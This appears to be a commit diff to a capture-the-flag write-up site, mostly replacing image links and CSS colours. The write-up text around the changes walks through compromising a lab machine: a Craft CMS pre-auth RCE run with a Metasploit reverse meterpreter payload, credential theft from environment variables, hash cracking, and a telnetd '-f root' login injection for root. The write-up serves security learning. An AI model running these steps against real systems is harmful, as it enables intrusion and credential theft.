

Before and after one commit to ednsQQor/ednsQQor.github.io, a Jekyll site: the page built from _machines/orion.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Actualizar sitio de writeups

````diff
--- a/_machines/orion.md
+++ b/_machines/orion.md
@@ -30,7 +30,7 @@ Standard opener: a full TCP port sweep before anything else, so I don't waste ti
 nmap -p- --min-rate 5000 -Pn orion.htb
 ```
 
-![[orion-01-nmap-allports.png]]
+![](/assets/machines/orion/pasted-image-20261017012527.png)
 
 Followed by a version/script scan against whatever came back:
 
@@ -38,15 +38,15 @@ Followed by a version/script scan against whatever came back:
 nmap -p<ports> -sCV orion.htb
 ```
 
-![[orion-02-nmap-sCV.png]]
+![](/assets/machines/orion/pasted-image-20261017013219.png)
 
 Port 80 was serving **Craft CMS**. I added `orion.htb` to `/etc/hosts` and started poking at the content with `ffuf`.
 
-![[orion-03-ffuf.png]]
+![](/assets/machines/orion/pasted-image-20261017014459.png)
 
 Two flags made this actually usable: `-ic` to ignore the wordlist's own comment lines (otherwise ffuf tries to request them as paths), and `-fs 12272` to filter out Craft/Yii's catch-all error page — every non-existent path on this app returns the same 12272-byte Yii exception page, and without filtering it out, that noise buries the real hits. With that out of the way, the admin panel at `/admin` showed up cleanly.
 
-![[orion-04-craft-admin.png]]
+![](/assets/machines/orion/pasted-image-20261017014733.png)
 
 ---
 
@@ -54,7 +54,7 @@ Two flags made this actually usable: `-ic` to ignore the wordlist's own comment
 
 The Craft version in use fell inside the affected range for CVE-2025-32432 (3.0.0-RC1–3.9.14, 4.0.0-RC1–4.14.14, 5.0.0-RC1–5.6.16) — a **pre-auth** remote code execution bug living in `/actions/assets/generate-transform`.
 
-![[orion-05-craft-version.png]]
+![](/assets/machines/orion/pasted-image-20261017014733.png)
 
 The chain behind it is two requests. First, a GET request poisons the server's own PHP session file by smuggling PHP code into it. Second, a POST request abuses Yii's dependency injection — specifically, tricking `craft\behaviors\FieldLayoutBehavior` into instantiating a `yii\rbac\PhpManager` with a crafted `itemFile` — to make the framework `require()` that poisoned session file, which executes the injected PHP.
 
@@ -72,13 +72,13 @@ set payload cmd/linux/http/x64/meterpreter_reverse_tcp
 run
 ```
 
-![[orion-06-msf-exploit.png]]
+![](/assets/machines/orion/pasted-image-20261017023340.png)
 
 The payload choice here is the part worth explaining, because the obvious default doesn't work. Metasploit's default payload for this exploit is a **staged** `php/meterpreter/reverse_tcp` — it runs inside the same short-lived PHP process that's handling the malicious HTTP request, and that process is killed by PHP-FPM as soon as the request finishes. The stager tries to pull down the next stage, the parent process dies mid-handshake, and you get stuck watching `core_loadlib` fail in a loop ("Died").
 
 Setting `target 1` (Unix/Linux Command Shell) instead of the default PHP target, paired with a **stageless** native payload (`cmd/linux/http/x64/meterpreter_reverse_tcp`), sidesteps that entirely: the command-shell target just runs a shell command that downloads a self-contained Linux ELF meterpreter binary over HTTP and executes it as its **own independent process**, completely detached from the PHP worker that spawned it. By the time PHP-FPM kills the original request's process, the ELF is already running on its own and the session stays up.
 
-![[orion-07-meterpreter-session.png]]
+![](/assets/machines/orion/pasted-image-20261017025435.png)
 
 ---
 
@@ -90,7 +90,7 @@ With a stable shell, I checked the environment — self-hosted PHP apps configur
 env
 ```
 
-![[orion-08-env-creds.png]]
+![](/assets/machines/orion/pasted-image-20261017025649.png)
 
 `CRAFT_DB_USER` and `CRAFT_DB_PASSWORD` (`SuperSecureCraft123Pass!`) were sitting right there.
 
@@ -104,7 +104,7 @@ With working DB credentials, I queried the `users` table directly:
 mysql -u root -p'SuperSecureCraft123Pass!' -e "USE orion; SELECT username,password FROM users"
 ```
 
-![[orion-09-admin-hash.png]]
+![](/assets/machines/orion/pasted-image-20261017030036.png)
 
 That returned the admin's password hash: `$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS`. The `$2y$` prefix identifies it as bcrypt, `$13$` is the cost factor (2^13 key-derivation rounds), followed by a 22-character salt and then the hash itself.
 
@@ -114,7 +114,7 @@ Cracking it needed a bit of care on the shell side: bcrypt hashes are full of `$
 hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
 ```
 
-![[orion-10-hashcat-crack.png]]
+![](/assets/machines/orion/pasted-image-20261017030701.png)
 
 Cracked to **`darkangel`**.
 
@@ -128,7 +128,7 @@ Same story as the DB credentials showing up in plain env — here the admin's ow
 ssh adam@orion.htb
 ```
 
-![[orion-11-ssh-user.png]]
+![](/assets/machines/orion/pasted-image-20261017030927.png)
 
 `darkangel` worked, landing a stable shell and `user.txt`.
 
@@ -142,7 +142,7 @@ Looking for anything listening only locally:
 ss -tlnp
 ```
 
-![[orion-12-ss-telnet.png]]
+![](/assets/machines/orion/pasted-image-20261017031837.png)
 
 Telnet was listening on `127.0.0.1:23`, backed by GNU inetutils' `telnetd`.
 
@@ -154,7 +154,7 @@ The two separate-token part matters: typing `-froot` jammed together at the `log
 telnet -l '-f root' 127.0.0.1 23
 ```
 
-![[orion-13-telnet-root.png]]
+![](/assets/machines/orion/pasted-image-20261017032430.png)
 
 That dropped straight into a root shell with no password at all.
 
@@ -162,11 +162,11 @@ That dropped straight into a root shell with no password at all.
 id
 ```
 
-![[orion-14-id-root.png]]
+![](/assets/machines/orion/pasted-image-20261017032448.png)
 
 Machine pwned.
 
-![[orion-15-root-flag.png]]
+![](/assets/machines/orion/pasted-image-20261017032504.png)
 
 ---
 
--- a/assets/css/style.css
+++ b/assets/css/style.css
@@ -604,12 +604,12 @@ code, pre, kbd, samp { font-family: var(--font-mono); }
 .writeup-content h2 {
   font-family: var(--font-display);
   font-weight: 500;
-  color: var(--text);
+  color: var(--accent);
   font-size: 1.45em;
   line-height: 1.3;
   margin: 1.8em 0 0.6em;
   padding-top: 0.5em;
-  border-top: 1px solid var(--hairline);
+  border-top: 1px solid var(--accent-dim);
   scroll-margin-top: 80px;
 }
 .writeup-content h2:first-child { border-top: none; padding-top: 0; margin-top: 0; }
@@ -664,7 +664,8 @@ code, pre, kbd, samp { font-family: var(--font-mono); }
   padding: 8px 12px;
   text-align: left;
 }
-.writeup-content table th { background: var(--surface); color: var(--text-muted); }
+.writeup-content table th { background: var(--accent); color: var(--bg); border-color: var(--accent); }
+.writeup-content table tbody tr:nth-child(even) td { background: var(--accent-soft); }
 
 .writeup-content hr { border: none; border-top: 1px solid var(--hairline); margin: 2.4em 0; }
 
````
Also changed, not shown: assets/machines/orion/pasted-image-20261017012527.png (added), assets/machines/orion/pasted-image-20261017013219.png (added), assets/machines/orion/pasted-image-20261017014459.png (added), assets/machines/orion/pasted-image-20261017014733.png (added), assets/machines/orion/pasted-image-20261017023340.png (added), assets/machines/orion/pasted-image-20261017025435.png (added), assets/machines/orion/pasted-image-20261017025649.png (added), assets/machines/orion/pasted-image-20261017030036.png (added), assets/machines/orion/pasted-image-20261017030701.png (added), assets/machines/orion/pasted-image-20261017030927.png (added), assets/machines/orion/pasted-image-20261017031837.png (added), assets/machines/orion/pasted-image-20261017032430.png (added), assets/machines/orion/pasted-image-20261017032448.png (added), assets/machines/orion/pasted-image-20261017032504.png (added).
